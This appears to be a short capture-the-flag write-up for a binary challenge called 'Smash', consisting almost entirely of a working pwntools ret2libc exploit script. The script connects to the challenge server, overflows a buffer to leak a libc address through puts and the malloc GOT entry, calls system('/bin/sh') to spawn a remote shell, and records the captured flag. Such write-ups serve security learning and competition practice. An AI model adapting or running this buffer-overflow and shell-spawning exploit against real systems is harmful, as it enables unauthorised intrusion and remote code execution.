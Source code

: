 ### Smash
A simple ret2libc exploit
```python
from pwn import *

exe = ELF("hello")
libc = ELF("libc.so.6")
HOST = "chall.csivit.com"
PORT = 30046
p = remote(HOST, PORT)

p.recvline()
offset = 136
log.info("sending the first payload...")
payload = b"M" * offset
payload += p32(exe.plt["puts"])
payload += p32(exe.sym["main"])
payload += p32(exe.got["malloc"])
p.sendline(payload)
log.info("first payload done")
sleep(1.5)

log.info("leak libc_base...")
p.recvuntil("!\n")
malloc = u32(p.recv(4))
libc_base = malloc - libc.sym["malloc"]
log.success("Libc base address --> %s", hex(libc_base))
log.info("libc base leaked")
sleep(1.5)

system = libc_base + libc.sym["system"]
log.success("system --> 0x%x" % system)
bin_sh = libc_base + next(libc.search(b"/bin/sh"))
sleep(1.5)

log.info("sending the second payload...")
payload = b"A" * offset
payload += p32(system)
payload += b"AAAA"
payload += p32(bin_sh)
p.recvlines(2)
p.sendline(payload)
log.info("second payload done")
sleep(1.5)

p.recvuntil('!\n')
log.info("spawning shell...")
sleep(1)
p.interactive()

# FLAG --> csictf{5up32_m4210_5m45h_8202}
```
## Web
